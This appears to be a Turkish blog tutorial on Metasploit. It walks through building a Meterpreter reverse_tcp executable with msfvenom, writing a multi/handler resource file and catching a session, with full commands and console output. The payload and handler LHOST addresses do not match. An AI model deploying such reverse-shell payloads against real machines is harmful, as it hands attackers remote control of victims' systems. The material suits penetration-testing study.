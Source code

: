 ```yaml
---
draft: false

title:  'MSF Meterpreter Script Yazma'
date: '2017-06-14T13:47:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  "Öncelile, yeni bir script yazarken dikkat edilmesi gereken bir takım kuralları görelim. 
Tüm Windows sürümleri aynı değildir. 
Bazı Windows sürümleri, güvenlik tedbirleri barındırırlar. 
Windows Scriptleri, sürüme bağlı olarak farklı davranış gösterirler. 
Script yazarken Windows sürümüne özel davranmanız gerekebilir." 
 
url:  /tr/msf-meterpreter-script-yazma/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



## Script Yazma



Öncelile, yeni bir script yazarken dikkat edilmesi gereken bir takım kuralları görelim.


* 
* Tüm Windows sürümleri aynı değildir.

* Bazı Windows sürümleri, güvenlik tedbirleri barındırırlar.

* Windows Scriptleri, sürüme bağlı olarak farklı davranış gösterirler.

* Script yazarken Windows sürümüne özel davranmanız gerekebilir.




Yukarıda belirtilen kuralları göz önünde bulundurarak, hedefe özel script yazmak gerekmektedir. Bu durumda yazacağımız script doğru çalışabilir.



Şimdi, aşağıdaki komut ile çalıştırılabilir bir .exe dosyası oluşturalım. Bu program, hedef sistemde çalışacak ve yerel bilgisayarımıza reverse bağlantı açacaktır.


```bash
root@kali:~# msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp  LHOST=192.168.1.101 -b "\x00" -f exe -o Meterpreter.exe
Found 10 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 326 (iteration=0)
x86/shikata_ga_nai chosen with final size 326
Payload size: 326 bytes
Saved as: Meterpreter.exe
```



Gerekli .exe dosyamız oluşturuldu. Bu dosya hedef windows işletim sistemi içinde çalışacak ve yerel bilgisayara iletişim sağlayacaktır. O zaman bizim yerel bilgisayarda dinleyici oluşturmamız gerekmektedir. Dinleyicimizi oluşturalım.


```bash
root@kali:~# touch meterpreter.rc
root@kali:~# echo use exploit/multi/handler **>>** meterpreter.rc
root@kali:~# echo set PAYLOAD windows/meterpreter/reverse_tcp **>>** meterpreter.rc
root@kali:~# echo set LHOST 192.168.1.184 **>>** meterpreter.rc
root@kali:~# echo set ExitOnSession false **>>** meterpreter.rc
root@kali:~# echo exploit -j -z **>>** meterpreter.rc
root@kali:~# cat meterpreter.rc
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.184
set ExitOnSession false
exploit -j -z
```



Dikkat ederseniz komutlarla, multi handler modülünü dinleyici olarak ayarladık. Payload modülü olarak reverse_tcp modülü kulandık. Yerel IP adresi olarak 192.168.1.184 ayarladık.



Yeni yazdığımız scriptleri `/usr/share/metasploit-framework/scripts/meterpreter` klasörüne kayıt edersek, kolayca kullanabiliriz.



Şimdi yapmamız gereken, `msfconsole` programını yeni oluşturduğumuz `meterpreter.rc` dosyasını kaynak göstererek başlatmak.


```bash
root@kali:~# msfconsole -r meterpreter.rc

       [ metasploit v4.8.2-2014021901 [core:4.8 api:1.0] ]
+ -- --[ 1265 exploits - 695 auxiliary - 202 post ]
+ -- --[ 330 payloads - 32 encoders - 8 nops      ]

resource> use exploit/multi/handler
resource> set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
resource> set LHOST 192.168.1.184
LHOST => 192.168.1.184
resource> set ExitOnSession false
ExitOnSession => false
resource> exploit -j -z
> Handler binding to LHOST 0.0.0.0
> Started reverse handler
> Starting the payload handler...
```



Yukarıda gördüğünüz gibi Metasploit Framework dinleme yaparak başlamıştır. Artık, oluşturduğumuz .exe dosyasını Windows içerisinde çalıştırdığımızda, oturum aktif hale gelecektir.


```bash
> Sending stage (718336 bytes)
> Meterpreter session 1 opened (192.168.1.158:4444 -> 192.168.1.104:1043)

msf exploit(handler) > sessions -i 1
> Starting interaction with 1...

meterpreter >```

